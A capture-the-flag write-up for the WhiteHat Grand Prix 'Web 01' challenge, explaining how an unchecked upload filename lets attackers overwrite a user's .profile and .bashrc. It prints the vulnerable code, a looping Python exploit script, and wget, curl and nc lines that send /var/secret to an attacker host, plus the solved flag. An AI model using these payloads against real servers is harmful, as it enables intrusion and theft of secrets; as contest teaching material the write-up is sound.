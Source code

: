# Web 01 (web, 100p, 46 solved)

```
manhndd is running a service file upload at web01.grandprix.whitehatvn.com, it is restored every 2 minutes. 
Every 1 minute after service starts, he ssh into server to check /var/secret. 
Can you get it?

Note: Player shouldn't Dos web01, you can get source code and run in local
```

In the task we get access to a python-based file upload service.
We can download uploaded files, including the [server file itself](SimpleHTTPServerWithUpload.py).

If we diff this file with the original, we can notice there is only a single change -> the special case when file we want to upload already exists.
It seems with the script running on the server we could overwrite files because no such check exists!

Let's look at how the files are uploaded:

```python
fn = re.findall(r'Content-Disposition.*name="file"; filename="(.*)"', line)
if not fn:
    return (False, "Can't find out file name...")
path = self.translate_path(self.path)
fn = os.path.join(path, fn[0])
if "index" in fn.lower():
    return (False, "Can't create file to write, do you have permission to write?")
line = self.rfile.readline()
remainbytes -= len(line)
line = self.rfile.readline()
remainbytes -= len(line)
try:
    out = open(fn, 'wb')
except IOError:
    return (False, "Can't create file to write, do you have permission to write?")
```

Interesting part is that the filename taken for the output file is taken from the POST request almost directly.
This means if we send for example path `/etc/passwd` if would actually try to overwrite this file.

This would not be very useful, however we know that `manhndd (...) ssh into server to check /var/secret`.
We can, therefore, overwrite contents of `.bashrc` or `.profile`, and they would get executed once admin logs in to the machine.

We know the username, so we can guess the path is `/home/manhndd`.
We can easily verify this, since the uploader returns an error if we can't write the file.

The final payload is:

```python
from time import sleep

import requests


def main():
    while True:
        url = 'http://web01.grandprix.whitehatvn.com/'
        files = {'file': ('/home/manhndd/.profile', open('payload.txt', 'rb'))}
        r = requests.post(url, files=files, headers={"referer": "dupa.pl"})
        print(r.text)
        files = {'file': ('/home/manhndd/.bashrc', open('payload.txt', 'rb'))}
        r = requests.post(url, files=files, headers={"referer": "dupa.pl"})
        print(r.text)
        sleep(1)
main()
```

With payload set to `curl`/`wget`/`nc` sending the flag to us:

```
wget --post-file=/var/secret http://our.host;
curl -F "file=@/var/secret" http://our.host;
cat /var/secret | nc our.host port;
```

Keep in mind, the file gets overwritten, so other teams can overwrite our payload.
From what we noticed, there were teams who purpously were doing that, to prevent others from getting the flag.

It took a while for us to get lucky with race condition, but finally we got `g1ftfr0mNQ`
